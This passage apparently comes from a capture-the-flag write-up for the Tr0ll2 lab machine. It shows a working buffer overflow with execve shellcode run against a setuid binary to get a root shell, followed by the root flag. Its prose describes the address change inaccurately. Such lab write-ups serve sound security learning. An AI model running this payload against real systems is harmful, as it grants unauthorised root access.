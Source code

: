 So, In my case our target binary is in the `door1` directory. let's run the exploit on that binary.

### Environment Fault
After running the exploit against the right binary there's an error stating **`Illegal instruction`**. 

```shell-session
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$ ./r00t $(python -c 'print "A" * 268 + "\x70\xfc\xff\xbf" + "\x90" * 10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
Illegal instruction
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$
```

So, the problem is that the actual machine's environment is different than the one inside of the **`GDB`**.<br/>
So, for avoiding the error all we have to do is to shift the address of esp from 1 bit. `\xbffffb70` to `\xbffffb80`. let's run the exploit again after making the changes.

```shell-session
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door1$ env - ./r00t $(python -c 'print "A" * 268 + "\x80\xfc\xff\xbf" + "\x90" * 10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

# id
id
uid=1002(noob) gid=1002(noob) euid=0(root) groups=0(root),1
002(noob)

# cat /root/Proof.txt
cat /root/Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```

## Root Flag
```bash
a70354f0258dcc00292c72aab3c8b1e4
```

and here we completed the machine.
